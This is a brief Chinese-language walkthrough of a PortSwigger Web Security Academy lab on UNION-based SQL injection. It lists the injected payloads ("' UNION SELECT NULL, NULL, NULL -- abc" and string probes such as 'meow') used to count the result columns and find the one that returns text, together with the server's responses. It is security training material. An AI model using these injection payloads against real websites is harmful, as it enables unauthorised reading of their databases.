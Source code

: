 https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text

比照 https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns 的解法算有幾個 column

```
' UNION SELECT NULL -- abc		Internal Server Error
' UNION SELECT NULL, NULL -- abc	Internal Server Error
' UNION SELECT NULL, NULL, NULL -- abc	有三個 column 回傳
```

找到回傳的數量後就可以開始找型態，由於 information_schema 的資料是字串，故我們想找字串型態的回傳值

```
' UNION SELECT 'meow', NULL, NULL -- abc	Internal Server Error
' UNION SELECT NULL, 'meow', NULL -- abc	success
```

note 此 LAB 指令要 union 的字串
